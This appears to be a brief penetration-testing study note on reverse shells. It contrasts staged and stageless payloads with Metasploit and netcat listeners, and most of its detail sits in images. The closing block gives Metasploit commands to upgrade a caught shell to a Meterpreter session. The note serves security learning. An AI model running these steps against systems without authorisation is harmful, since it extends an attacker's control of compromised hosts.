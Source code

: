 # Shells

![](<../../../../.gitbook/assets/image (25) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

